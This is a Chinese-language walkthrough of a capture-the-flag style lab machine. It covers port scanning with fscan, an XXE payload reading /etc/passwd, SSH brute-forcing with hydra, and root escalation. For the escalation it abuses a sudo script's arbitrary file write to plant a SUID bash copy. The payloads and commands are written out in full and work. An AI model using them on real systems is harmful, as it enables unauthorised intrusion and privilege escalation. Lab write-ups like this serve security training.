

正常先 `fscan` 扫一下开放端口，然后结果如下：

```bash
PS C:\Users\SeanL> fscan -h 192.168.101.56

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.101.56:80 open
192.168.101.56:22 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://192.168.101.56     code:200 len:1734   title:XML Parser
```

只开放了80 22端口。然后web挂了一个网页用作XML解析器。利用XXE构造payload，读取 `/etc/passwd`

```xml
<?xml version="1.0"?>
<!DOCTYPE test [  
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<root>&xxe;</root>
```

得到一个部分明文的用户

```bash
tuf:x:1000:1000:KQNPHFqG**JHcYJossIe:/home/tuf:/bin/bash
```

利用脚本生成字典然后用hydra进行ssh爆破

```bash
hydra -l tuf -P output.txt ssh://192.168.101.56 -t 16
```



得到，密码 KQNPHFqG6mJHcYJossIe ，即可登陆用户连接靶机，查看 `~/user.txt` 获取用户flag。

尝试提权，进一步`sudo -l` 查看可以使用的命令

```bash
tuf@112:~$ sudo -l
Matching Defaults entries for tuf on 112:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tuf may run the following commands on 112:
    (ALL) NOPASSWD: /opt/112.sh
```

发现用户tuf可以免密码执行/opt/112.sh脚本，查看脚本内容

```bash
#!/bin/bash
input_url=""
output_file=""
use_file=false
regex='^https://maze-sec.com/[a-zA-Z0-9/]*$'
while getopts ":u:o:" opt; do
    case ${opt} in
        u) input_url="$OPTARG" ;;
        o) output_file="$OPTARG"; use_file=true ;;
        \?) echo "错误: 无效选项 -$OPTARG"; exit 1 ;;
        :) echo "错误: 选项 -$OPTARG 需要一个参数"; exit 1 ;;
    esac
done
if [[ -z "$input_url" ]]; then
    echo "错误: 必须使用 -u 参数提供URL"
    exit 1
fi
if [[ ! "$input_url" =~ ^https://maze-sec.com/ ]]; then
    echo "错误: URL必须以 https://maze-sec.com/ 开头"
    exit 1
fi
if [[ ! "$input_url" =~ $regex ]]; then
    echo "错误: URL包含非法字符，只允许字母、数字和斜杠"
    exit 1
fi
if (( RANDOM % 2 )); then
    result="$input_url is a good url."
else
    result="$input_url is not a good url."
fi
if [ "$use_file" = true ]; then
    echo "$result" > "$output_file"
    echo "结果已保存到: $output_file"
else
    echo "$result"
fi
```

分析脚本会发现这个脚本存在任意文件写入漏洞，并且还是用sudo执行的，有root权限。

所以可以利用任意文件写入，篡改当前 `/opt/112.sh` 脚本，然后利用在无 **shebang** 时，会默认使用 `/bin/sh` 来执行。然后由于 url 里包含 `/` ，且不是 `/` 开头，则会被解释为相对路径。于是可以在可写目录下创建路径文件 `./https:/maze-sec.com/exp` 并添加执行权限，然后创建一个SUID bashshell

```bash
mkdir -p ./https:/maze-sec.com
echo -e '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod +xs /tmp/bash' > ./https:/maze-sec.com/exp
chmod +x ./https:/maze-sec.com/exp
```

然后执行脚本，触发漏洞

```bash
sudo /opt/112.sh -u https://maze-sec.com/exp -o /opt/112.sh
sudo /opt/112.sh
/tmp/bash -p
```

然后 `whoami` 确认获得root权限，最后查看 `/root/root.txt` 获取root flag